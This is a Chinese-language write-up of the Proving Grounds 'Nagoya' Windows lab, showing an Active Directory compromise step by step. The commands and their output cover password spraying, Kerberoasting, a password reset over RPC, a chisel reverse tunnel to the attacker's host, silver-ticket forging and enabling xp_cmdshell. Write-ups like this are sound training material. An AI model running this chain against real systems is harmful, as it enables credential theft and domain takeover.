


# ProvingGrounds Nagoya Writeup


## Nagoya

这是第22台，Windows系统，难度Hard，名称 Nagoya

192.168.166.21


## PortScan

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP]
└─$ sudo nmap -n -r --min-rate=3500 -sSV 192.168.166.21 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-07 15:09 CST
Nmap scan report for 192.168.166.21
Host is up (0.25s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
80/tcp   open  http              Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2024-02-07 07:09:23Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
Service Info: Host: NAGOYA; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.86 seconds
```


## InitAccess

### 80-Web

发现80的Web服务重有个Team页面，包含了团队成员


根据这个页面制作字典，我最初设计的字典格式是：`Emma 	Miah`，  `Emma.Miah`， `EmmaMiah` 三种格式

使用Kerbrute验证有效的域用户：

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Nagoya]
└─$ kerbrute -domain nagoya-industries.com -users ./teams.txt -dc-ip 192.168.166.21

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Valid user =&gt; Matthew.Harrison
[*] Valid user =&gt; Emma.Miah
[*] Valid user =&gt; Rebecca.Bell
[*] Valid user =&gt; Scott.Gardner
[*] Valid user =&gt; Terry.Edwards
[*] Valid user =&gt; Holly.Matthews
[*] Valid user =&gt; Anne.Jenkins
[*] Valid user =&gt; Brett.Naylor
[*] Valid user =&gt; Melissa.Mitchell
[*] Valid user =&gt; Craig.Carr
[*] Valid user =&gt; Fiona.Clark
[*] Valid user =&gt; Patrick.Martin
[*] Valid user =&gt; Kate.Watson
[*] Valid user =&gt; Kirsty.Norris
[*] Valid user =&gt; Andrea.Hayes
[*] Valid user =&gt; Abigail.Hughes
[*] Valid user =&gt; Melanie.Watson
[*] Valid user =&gt; Frances.Ward
[*] Valid user =&gt; Sylvia.King
[*] Valid user =&gt; Wayne.Hartley
[*] Valid user =&gt; Iain.White
[*] Valid user =&gt; Joanna.Wood
[*] Valid user =&gt; Bethan.Webster
[*] Valid user =&gt; Elaine.Brady
[*] Valid user =&gt; Christopher.Lewis
[*] Valid user =&gt; Megan.Johnson
[*] Valid user =&gt; Damien.Chapman
[*] Valid user =&gt; Joanne.Lewis
[*] No passwords were discovered :&#39;(
```


### Hint-1

&gt; **Foothold 1**
&gt;
&gt; Build a username wordlist with the names found in the web app, you can try conventions like Offsec.Labs . Spraying easy password combinations like seasons &#43; years is always a good start.

### SMB-445

根据提示，构建密码字典，如：Spring2023、Summer2023、Autumn2023、Winter2023等。

这里不看提示真的很难。

SMB枚举：

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Nagoya]
└─$ crackmapexec smb 192.168.166.21 -u ./users.txt -p &#39;Summer2023&#39; --shares 
SMB         192.168.166.21  445    NAGOYA           [*] Windows 10.0 Build 17763 x64 (name:NAGOYA) (domain:nagoya-industries.com) (signing:True) (SMBv1:False)
SMB         192.168.166.21  445    NAGOYA           [-] nagoya-industries.com\Matthew.Harrison:Summer2023 STATUS_LOGON_FAILURE 
SMB         192.168.166.21  445    NAGOYA           [-] nagoya-industries.com\Emma.Miah:Summer2023 STATUS_LOGON_FAILURE 
SMB         192.168.166.21  445    NAGOYA           [-] nagoya-industries.com\Rebecca.Bell:Summer2023 STATUS_LOGON_FAILURE 
SMB         192.168.166.21  445    NAGOYA           [-] nagoya-industries.com\Scott.Gardner:Summer2023 STATUS_LOGON_FAILURE 
SMB         192.168.166.21  445    NAGOYA           [-] nagoya-industries.com\Terry.Edwards:Summer2023 STATUS_LOGON_FAILURE 
SMB         192.168.166.21  445    NAGOYA           [-] nagoya-industries.com\Holly.Matthews:Summer2023 STATUS_LOGON_FAILURE 
SMB         192.168.166.21  445    NAGOYA           [-] nagoya-industries.com\Anne.Jenkins:Summer2023 STATUS_LOGON_FAILURE 
SMB         192.168.166.21  445    NAGOYA           [-] nagoya-industries.com\Brett.Naylor:Summer2023 STATUS_LOGON_FAILURE 
SMB         192.168.166.21  445    NAGOYA           [-] nagoya-industries.com\Melissa.Mitchell:Summer2023 STATUS_LOGON_FAILURE 
SMB         192.168.166.21  445    NAGOYA           [-] nagoya-industries.com\Craig.Carr:Summer2023 STATUS_LOGON_FAILURE 
SMB         192.168.166.21  445    NAGOYA           [&#43;] nagoya-industries.com\Fiona.Clark:Summer2023 
SMB         192.168.166.21  445    NAGOYA           [&#43;] Enumerated shares
SMB         192.168.166.21  445    NAGOYA           Share           Permissions     Remark
SMB         192.168.166.21  445    NAGOYA           -----           -----------     ------
SMB         192.168.166.21  445    NAGOYA           ADMIN$                          Remote Admin
SMB         192.168.166.21  445    NAGOYA           C$                              Default share
SMB         192.168.166.21  445    NAGOYA           IPC$            READ            Remote IPC
SMB         192.168.166.21  445    NAGOYA           NETLOGON        READ            Logon server share 
SMB         192.168.166.21  445    NAGOYA           SYSVOL          READ            Logon server share
```

拿到一套有效的账户名密码：`Fiona.Clark:Summer2023`

登录SMB：

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Nagoya]
└─$ smbclient  //192.168.166.21/SYSVOL -U Fiona.Clark%Summer2023
Try &#34;help&#34; to get a list of possible commands.
smb: \&gt; ls
  .                                   D        0  Sun Apr 30 14:31:25 2023
  ..                                  D        0  Sun Apr 30 14:31:25 2023
  nagoya-industries.com              Dr        0  Sun Apr 30 14:31:25 2023

                10328063 blocks of size 4096. 4800089 blocks available
```

翻文件，找到一个ResetPassword目录

```sh
smb: \&gt; ls nagoya-industries.com\scripts\resetpassword\
  .                                   D        0  Sun Apr 30 16:07:07 2023
  ..                                  D        0  Sun Apr 30 16:07:07 2023
  ResetPassword.exe                   A     5120  Mon May  1 01:04:02 2023
  ResetPassword.exe.config            A      189  Mon May  1 00:53:50 2023
  System.IO.FileSystem.AccessControl.dll      A    28552  Tue Oct 20 11:39:30 2020
  System.IO.FileSystem.AccessControl.xml      A    65116  Sat Oct 10 13:10:54 2020
  System.Security.AccessControl.dll      A    35952  Sat Oct 23 16:45:08 2021
  System.Security.AccessControl.xml      A   231631  Wed Oct 20 00:14:20 2021
  System.Security.Permissions.dll      A    30328  Wed Oct 19 09:34:02 2022
  System.Security.Permissions.xml      A     8987  Wed Oct 19 09:34:02 2022
  System.Security.Principal.Windows.dll      A    18312  Tue Oct 20 11:46:28 2020
  System.Security.Principal.Windows.xml      A    90968  Sat Oct 10 13:10:54 2020

                10328063 blocks of size 4096. 4800089 blocks available
```

下载config和xml文件，没发现敏感信息。

### Hint-2

&gt; **Foothold 2**
&gt;
&gt; Enumerate shares, find the binary and reverse engineer it. Make use of credentials you found. Keep in mind that one can still enumerate ACLs without actually getting a shell

经过提示需要逆向分析，于是下载exe文件到本地，进行逆向。

将SMB ResetPassword目录下的所有文件都放到Windows x86架构的机子上，使用[dnSpy](https://github.com/dnSpy/dnSpy)工具对exe文件进行逆向，发现一组硬编码服务账户密码：`svc_helpdesk/U299iYRmikYTHDbPbxPoYYfa2j4x4cdg`


### Kerberoasting

获取SPN

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Nagoya]
└─$ impacket-GetUserSPNs nagoya-industries.com/fiona.clark:&#39;Summer2023&#39; -dc-ip 192.168.166.21 -debug -outputfile kerberoast.txt
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[&#43;] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[&#43;] Connecting to 192.168.166.21, port 389, SSL False
[&#43;] Total of records returned 5
ServicePrincipalName                Name          MemberOf                                          PasswordLastSet             LastLogon                   Delegation 
----------------------------------  ------------  ------------------------------------------------  --------------------------  --------------------------  ----------
http/nagoya.nagoya-industries.com   svc_helpdesk  CN=helpdesk,CN=Users,DC=nagoya-industries,DC=com  2023-04-30 15:31:06.190955  &lt;never&gt;                                
MSSQL/nagoya.nagoya-industries.com  svc_mssql                                                       2023-04-30 15:45:33.288595  2023-06-16 05:38:06.145798             

[-] CCache file is not found. Skipping...
[&#43;] The specified path is not correct or the KRB5CCNAME environment variable is not defined
[&#43;] Trying to connect to KDC at 192.168.166.21
[&#43;] Trying to connect to KDC at 192.168.166.21
[&#43;] Trying to connect to KDC at 192.168.166.21
[&#43;] Trying to connect to KDC at 192.168.166.21

```


解密：

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Nagoya]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt kerberoast.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press &#39;q&#39; or Ctrl-C to abort, almost any other key for status
Service1         (?)     
1g 0:00:00:13 DONE (2024-02-07 17:10) 0.07189g/s 1031Kp/s 1106Kc/s 1106KC/s -xlengx-..*7¡Vamos!
Use the &#34;--show&#34; option to display all of the cracked passwords reliably
Session completed. 
```

获得第二个服务账户密码：`svc_mssql/Service1`


### RPC


```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Nagoya]
└─$ rpcclient -U nagoya-industries/svc_helpdesk 192.168.166.21
Password for [NAGOYA-INDUSTRIES\svc_helpdesk]:
rpcclient $&gt; 
# 枚举域用户
rpcclient $&gt; enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[svc_helpdesk] rid:[0x450]
user:[Matthew.Harrison] rid:[0x452]
user:[Emma.Miah] rid:[0x453]
user:[Rebecca.Bell] rid:[0x454]
user:[Scott.Gardner] rid:[0x455]
user:[Terry.Edwards] rid:[0x456]
user:[Holly.Matthews] rid:[0x457]
user:[Anne.Jenkins] rid:[0x458]
user:[Brett.Naylor] rid:[0x459]
user:[Melissa.Mitchell] rid:[0x45a]
user:[Craig.Carr] rid:[0x45b]
user:[Fiona.Clark] rid:[0x45c]
user:[Patrick.Martin] rid:[0x45d]
user:[Kate.Watson] rid:[0x45e]
user:[Kirsty.Norris] rid:[0x45f]
user:[Andrea.Hayes] rid:[0x460]
user:[Abigail.Hughes] rid:[0x461]
user:[Melanie.Watson] rid:[0x462]
user:[Frances.Ward] rid:[0x463]
user:[Sylvia.King] rid:[0x464]
user:[Wayne.Hartley] rid:[0x465]
user:[Iain.White] rid:[0x467]
user:[Joanna.Wood] rid:[0x468]
user:[Bethan.Webster] rid:[0x469]
user:[Elaine.Brady] rid:[0x46b]
user:[Christopher.Lewis] rid:[0x46c]
user:[Megan.Johnson] rid:[0x46d]
user:[Damien.Chapman] rid:[0x46e]
user:[Joanne.Lewis] rid:[0x46f]
user:[svc_mssql] rid:[0x470]
user:[svc_tpl] rid:[0x471]
user:[svc_web] rid:[0x472]
# 枚举域内组
rpcclient $&gt; enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
group:[employees] rid:[0x451]
group:[helpdesk] rid:[0x466]
group:[developers] rid:[0x46a]

# 查询用户所属组
rpcclient $&gt; queryusergroups 0x45c
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
……
rpcclient $&gt; queryusergroups 0x46c
        group rid:[0x201] attr:[0x7]
        group rid:[0x46a] attr:[0x7]
        group rid:[0x451] attr:[0x7]

```

发现用户Christopher.Lewis 有三个组：Domain Users、employees 和 developers，比其他用户多一个 developers 组，推测是开发人员。

这里没有远程管理的组，猜测 developers 组是否能远程。尝试修改 Christopher.Lewis 用户密码。svc_helpdesk 账号对christopher.lewis 具有完全控制权限，可以重置其账号

```sh
rpcclient $&gt; setuserinfo christopher.lewis 23 &#39;Admin@123&#39;
```

尝试远程登录。使用Evil-WinRM登录成功

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Nagoya]
└─$ evil-winrm -u christopher.lewis -p &#39;Admin@123&#39; -i 192.168.166.21

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                           

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents&gt; ls
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents&gt; whoami
nagoya-ind\christopher.lewis

*Evil-WinRM* PS C:\Users\Christopher.Lewis&gt; type C:\local.txt
81950a6ba1771f388080cb994a7fcb33


```


## PrivE

上传sharphound进行信息搜集

```sh
*Evil-WinRM* PS C:\tmp&gt; upload SharpHound.exe
*Evil-WinRM* PS C:\tmp&gt; ./SharpHound.exe -c All --OutputPrefix &#34;Nagoya-&#34;
*Evil-WinRM* PS C:\tmp&gt; download Nagoya-_20240207014142_BloodHound.zip
```

下载过程一直失败，使用SMB进行文件传输。

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Nagoya]
└─$ impacket-smbserver share $(pwd) -smb2support                            
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

*Evil-WinRM* PS C:\tmp&gt; copy Nagoya-_20240207014142_BloodHound.zip \\192.168.45.193\share\Nagoya-_20240207014142_BloodHound.zip
```



没分析出有用信息。

### MSSQL

考虑到有个mssql账户，查看当前端口列表，发现存在1433端口，说明有mssql服务。

```
*Evil-WinRM* PS C:\tmp&gt; netstat -anop TCP

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       880
  TCP    0.0.0.0:389            0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:464            0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:593            0.0.0.0:0              LISTENING       880
  TCP    0.0.0.0:636            0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       2264
  TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       1016
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING       2624
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       480
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       760
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       1008
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       1008
  TCP    0.0.0.0:49670          0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:49671          0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:49672          0.0.0.0:0              LISTENING       2476
  TCP    0.0.0.0:49677          0.0.0.0:0              LISTENING       620
  TCP    0.0.0.0:49684          0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:49691          0.0.0.0:0              LISTENING       2616
  TCP    0.0.0.0:49710          0.0.0.0:0              LISTENING       2648
  TCP    0.0.0.0:52804          0.0.0.0:0              LISTENING       2264
  TCP    127.0.0.1:53           0.0.0.0:0              LISTENING       2616
  TCP    127.0.0.1:389          127.0.0.1:49674        ESTABLISHED     628
  TCP    127.0.0.1:389          127.0.0.1:49676        ESTABLISHED     628
  TCP    127.0.0.1:389          127.0.0.1:49742        ESTABLISHED     628
  TCP    127.0.0.1:49674        127.0.0.1:389          ESTABLISHED     2684
  TCP    127.0.0.1:49676        127.0.0.1:389          ESTABLISHED     2684
  TCP    127.0.0.1:49742        127.0.0.1:389          ESTABLISHED     2616
  TCP    192.168.166.21:53      0.0.0.0:0              LISTENING       2616
  TCP    192.168.166.21:139     0.0.0.0:0              LISTENING       4
  TCP    192.168.166.21:389     192.168.166.21:49771   ESTABLISHED     628
  TCP    192.168.166.21:389     192.168.166.21:49839   ESTABLISHED     628
  TCP    192.168.166.21:389     192.168.166.21:49846   ESTABLISHED     628
  TCP    192.168.166.21:445     192.168.45.193:54162   ESTABLISHED     4
  TCP    192.168.166.21:5985    192.168.45.193:34646   TIME_WAIT       0
  TCP    192.168.166.21:5985    192.168.45.193:34658   ESTABLISHED     4
  TCP    192.168.166.21:5985    192.168.45.193:55274   TIME_WAIT       0
  TCP    192.168.166.21:49771   192.168.166.21:389     ESTABLISHED     2616
  TCP    192.168.166.21:49839   192.168.166.21:389     ESTABLISHED     2648
  TCP    192.168.166.21:49846   192.168.166.21:389     ESTABLISHED     2648
  TCP    192.168.166.21:50482   52.168.117.173:443     ESTABLISHED     3488
  TCP    192.168.166.21:50490   23.77.197.149:80       SYN_SENT        3488
```


上传chisel 进行端口转发，将1433端口代理出来

```shell
*Evil-WinRM* PS C:\tmp&gt; upload chisel.exe
*Evil-WinRM* PS C:\tmp&gt; cmd /c &#39;C:\tmp\chisel.exe client 192.168.45.193:8000 R:1433:127.0.0.1:1433&#39;

# kali
$ chisel server -p 8000 --reverse
```

本地登录

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Nagoya]
└─$ impacket-mssqlclient svc_mssql:&#39;Service1&#39;@127.0.0.1 -windows-auth
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(nagoya\SQLEXPRESS): Line 1: Changed database context to &#39;master&#39;.
[*] INFO(nagoya\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL&gt; 
```

尝试启用xp_cmdshell失败，权限不足

```mssql
SQL&gt; exec xp_cmdshell &#39;whoami&#39;;
[-] ERROR(nagoya\SQLEXPRESS): Line 1: The EXECUTE permission was denied on the object &#39;xp_cmdshell&#39;, database &#39;mssqlsystemresource&#39;, schema &#39;sys&#39;.
SQL&gt; EXEC sp_configure &#39;show advanced options&#39;, 1;RECONFIGURE;EXEC sp_configure &#39;xp_cmdshell&#39;, 1;RECONFIGURE;
[-] ERROR(nagoya\SQLEXPRESS): Line 105: User does not have permission to perform this action.
[-] ERROR(nagoya\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
[-] ERROR(nagoya\SQLEXPRESS): Line 62: The configuration option &#39;xp_cmdshell&#39; does not exist, or it may be an advanced option.
[-] ERROR(nagoya\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
SQL&gt; 
```

### Hint-3

&gt; **Escalation**
&gt;
&gt; Perform kerberoast, crack the password of service account for mssql. Use everything you gathered to forge a silver ticket. Elevate your privileges on mssql by impersonating to administrator using the silver ticket.

### 白银票据

因为现在已经有svc_mssql的账户密码，可以考虑通过白银票据传递，模拟高权限的管理员。

回顾白银票据的利用条件，需要如下信息：

- 要伪造的域用户（一般是域管理员账户）: Administrator
- 域名 :  nagoya-industries.com
- 域的SID值
- 可利用的服务 : MSSQL
- 目标服务的SPN
- 目标服务账户的NTLM哈希

现在还需要域的SID、MSSQL服务的SPN，svc_mssql的NTLM Hash

目前已有svc_mssql的明文密码，使用https://codebeautify.org/ntlm-hash-generator 生成 NTLM Hash，



域的SID通过powershell查询

```sh
*Evil-WinRM* PS C:\tmp&gt; Get-ADDomain

AllowedDNSSuffixes                 : {}
ChildDomains                       : {}
ComputersContainer                 : CN=Computers,DC=nagoya-industries,DC=com
DeletedObjectsContainer            : CN=Deleted Objects,DC=nagoya-industries,DC=com
DistinguishedName                  : DC=nagoya-industries,DC=com
DNSRoot                            : nagoya-industries.com
DomainControllersContainer         : OU=Domain Controllers,DC=nagoya-industries,DC=com
DomainMode                         : Windows2016Domain
DomainSID                          : S-1-5-21-1969309164-1513403977-1686805993
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=nagoya-industries,DC=com
Forest                             : nagoya-industries.com
InfrastructureMaster               : nagoya.nagoya-industries.com
LastLogonReplicationInterval       :
LinkedGroupPolicyObjects           : {CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=nagoya-industries,DC=com}
LostAndFoundContainer              : CN=LostAndFound,DC=nagoya-industries,DC=com
ManagedBy                          :
Name                               : nagoya-industries
NetBIOSName                        : NAGOYA-IND
ObjectClass                        : domainDNS
ObjectGUID                         : 1153c877-efa1-443b-b59f-c32c9286750e
ParentDomain                       :
PDCEmulator                        : nagoya.nagoya-industries.com
PublicKeyRequiredPasswordRolling   : True
QuotasContainer                    : CN=NTDS Quotas,DC=nagoya-industries,DC=com
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {nagoya.nagoya-industries.com}
RIDMaster                          : nagoya.nagoya-industries.com
SubordinateReferences              : {DC=ForestDnsZones,DC=nagoya-industries,DC=com, DC=DomainDnsZones,DC=nagoya-industries,DC=com, CN=Configuration,DC=nagoya-industries,DC=com}
SystemsContainer                   : CN=System,DC=nagoya-industries,DC=com
UsersContainer                     : CN=Users,DC=nagoya-industries,DC=com

```

MSSQL服务的SPN 也用Powershell查询

```sh
*Evil-WinRM* PS C:\tmp&gt; Get-ADUser -Filter {SamAccountName -eq &#34;svc_mssql&#34;} -Properties ServicePrincipalNames

DistinguishedName     : CN=svc_mssql,CN=Users,DC=nagoya-industries,DC=com
Enabled               : True
GivenName             : svc_mssql
Name                  : svc_mssql
ObjectClass           : user
ObjectGUID            : df7dda21-173f-4a4a-88ed-70d69481b46e
SamAccountName        : svc_mssql
ServicePrincipalNames : {MSSQL/nagoya.nagoya-industries.com}
SID                   : S-1-5-21-1969309164-1513403977-1686805993-1136
Surname               :
UserPrincipalName     : svc_mssql@nagoya-industries.com
```


最后得到所需的内容如下：

```
NTLM Hash: E3A0168BC21CFB88B95C954A5B18F57C
Domain SID: S-1-5-21-1969309164-1513403977-1686805993
Service SPN: {MSSQL/nagoya.nagoya-industries.com}
```

准备工作完成，那就尝试生成白银票据

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Nagoya]
└─$ impacket-ticketer -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn MSSQL/nagoya.nagoya-industries.com -user-id 500 Administrator
```


接下去导入票据，连接

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Nagoya]
└─$ export KRB5CCNAME=$PWD/Administrator.ccache

┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Nagoya]
└─$ klist
Ticket cache: FILE:/home/xavier/Desktop/OSCP/PG_Practice/Nagoya/Administrator.ccache
Default principal: Administrator@NAGOYA-INDUSTRIES.COM

Valid starting       Expires              Service principal
2024-02-07T20:20:46  2034-02-04T20:20:46  MSSQL/nagoya.nagoya-industries.com@NAGOYA-INDUSTRIES.COM
        renew until 2034-02-04T20:20:46
```

编辑 /etc/hosts 和 /etc/krb5user.conf

```sh
# /etc/hosts
127.0.0.1       nagoya.nagoya-industries.com nagoya-industries.com

# /etc/krb5user.conf
[libdefaults]
        default_realm = NAGOYA-INDUSTRIES.COM
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
    rdns = false
    dns_canonicalize_hostname = false
        fcc-mit-ticketflags = true

[realms]        
        NAGOYA-INDUSTRIES.COM = {
                kdc = nagoya.nagoya-industries.com
        }

[domain_realm]
        .nagoya-industries.com = NAGOYA-INDUSTRIES.COM
```

连接mssql服务

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Nagoya]
└─$ impacket-mssqlclient -k nagoya.nagoya-industries.com
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(nagoya\SQLEXPRESS): Line 1: Changed database context to &#39;master&#39;.
[*] INFO(nagoya\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL&gt; select system_user;
--------------------------------------
NAGOYA-IND\Administrator

```

成功开启并执行xp_cmdshell

```sh
SQL&gt; exec xp_cmdshell &#39;whoami&#39;;
[-] ERROR(nagoya\SQLEXPRESS): Line 1: SQL Server blocked access to procedure &#39;sys.xp_cmdshell&#39; of component &#39;xp_cmdshell&#39; because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of &#39;xp_cmdshell&#39; by using sp_configure. For more information about enabling &#39;xp_cmdshell&#39;, search for &#39;xp_cmdshell&#39; in SQL Server Books Online.
SQL&gt; EXEC sp_configure &#39;show advanced options&#39;, 1;RECONFIGURE;EXEC sp_configure &#39;xp_cmdshell&#39;, 1;RECONFIGURE;
[*] INFO(nagoya\SQLEXPRESS): Line 196: Configuration option &#39;show advanced options&#39; changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(nagoya\SQLEXPRESS): Line 196: Configuration option &#39;xp_cmdshell&#39; changed from 0 to 1. Run the RECONFIGURE statement to install.
